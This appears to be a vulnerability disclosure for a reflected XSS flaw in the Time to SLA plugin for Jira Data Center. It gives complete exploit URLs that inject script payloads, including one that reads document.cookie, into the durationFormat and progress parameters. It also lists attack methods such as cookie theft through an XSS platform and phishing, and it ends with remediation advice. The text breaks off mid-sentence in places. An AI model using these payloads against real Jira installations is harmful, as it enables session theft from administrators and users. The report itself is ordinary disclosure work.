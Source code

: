 Vulnerability submitted by Shuning Xu

Supplier:https://www.atlassian.com/software/jira

Software download link: https://www.atlassian.com/software/jira/update

Affected software :jira software

Vulnerability plugin name: Time to SLA

Vulnerability plugin Version: Version 10.13.5•Jira Data Center 8.0.0 - 9.10.1

Description :For jira software download, select HOSTING TYPES as the data center and download the latest version 9.10.1 locally. Install the latest version 10.13.5 of the Time to SLA plugin, which is applicable to Jira Data Center 8.0.0 - 9.10.1. The Time to SLA plugin has XSS Vulnerabilities, that is, cross-site scripting attacks, attackers will insert malicious JavaScript codes into web pages, and the payload is <ScRiPt>alert(1)</ScRiPt>, which will trigger when administrators/users access, so as to achieve the purpose of the attack. The essential reason is that the server does not strictly filter the data submitted by the user, causing the browser to treat the user's input as JS code and directly return it to the client for execution. What's happening here is reflected XSS. The attacker can steal the cookies of users such as administrators, steal clipboard content, change web page content (such as download links) and so on by using reflected cross-site scripting attacks.

Test process:
1. After installing the plugin Time to SLA, the paid plugin needs to obtain a license and activate the plugin.
Download address: the page

/plugins/servlet/upm/marketplace/featured? source=side_nav_find_new_addons 

Enter the plugin name Time to SLA download.

![image-xss1.1[Time to SLA]](images/xss1.1[Time].png)

Or download in the app store at 
https://marketplace.atlassian.com/apps/1211843/time-to-sla?tab=overview&hosting=datacenter

![image-xss1.2[Time to SLA]](images/xss1.2[Time].png)

2. Navigate to the URL:
http://localhost:port/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=dayHourMinute&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

![image-xss1.3[Time to SLA]](images/xss1.3[Time].png)

3. Launch Burp Suite to capture network traffic. Use Burpsuite to capture and change packets for detection:
![image-xss1.4[Time to SLA]](images/xss1.4[Time].png)

4. Change the durationFormat parameter to <ScRiPt>alert(1)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=<ScRiPt>alert(1)</ScRiPt>&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

Or change the durationFormat parameter to <ScRiPt>alert(document.cookie)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=<ScRiPt>alert(document.cookie)</ScRiPt>&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

Or Change the progress parameter to <ScRiPt>alert(2)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=<ScRiPt>alert(2)</ScRiPt>&durationFormat=dayHourMinute&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

5. A pop-up window will appear on the web page, and an alarm box showing 1 will pop up, triggering XSS, indicating that there is cross-site vulnerability, recording the vulnerability, and stopping the test.

![image-xss1.5[Time to SLA]](images/xss1.5[Time].png)

![image-xss1.6[Time to SLA]](images/xss1.6[Time].png)

A pop-up warning box showing cookies

![image-xss1.7[Time to SLA]](images/xss1.7[Time].png)

A pop-up warni

Attack steps:

1.Attackers create and test malicious URLs;

2.The attacker is sure that the victim loaded a malicious URL in the browser;

3.The attacker uses reflected cross-site scripting attacks to install keyloggers, steal victims' cookies, steal clipboard content, and change web page content (such as download links).

Attack method:

1. Use xss testing platform BlueLotus to steal cookies

2.Malicious links

3. Web phishing

4.Redirection implanted advertisement

Risk level: reflected cross-site presence in the application

Repair solution: 

For XSS cross-site vulnerabilities, the following repair methods can be used:

Overall fix: Validate all input data to effectively detect attacks; properly encode all output data to prevent any successfully injected scripts from running on the browser side. details as follows :

Input Validation: Validate the length, type, syntax, and business rules of all input data using standard input validation mechanisms before a certain data is accepted for display or storage.

Output encoding: Before data output, ensure that the data submitted by the user has been correctly encoded by entity. It is recommended to encode all characters instead of being limited to a certain subset.

Explicitly specify the encoding of the output: don't allow an attacker to choose an encoding (such as ISO 8859-1 or UTF 8) for your users.

Pay attention to the limitations of the blacklist verification method: just find or replace some characters (such as "<" ">" or keywords like "script"), it is easy to bypass the verification mechanism by XSS variant attacks.

Beware of normalization errors: Before validating input, it must be decoded and normalized to conform to the application's current internal representation. Make sure the application does not decode the same input twice. To filter the data submitted by the client, it is generally recommended to filter out special characters such as double quotes ("), angle brackets (<, >), or perform entity conversion on the special characters contained in the data submitted by the client, such as double quotes (") into its entity form &quot;, <corresponding entity form is &lt;, <corresponding entity form is&gt; The following are common characters to be filtered:
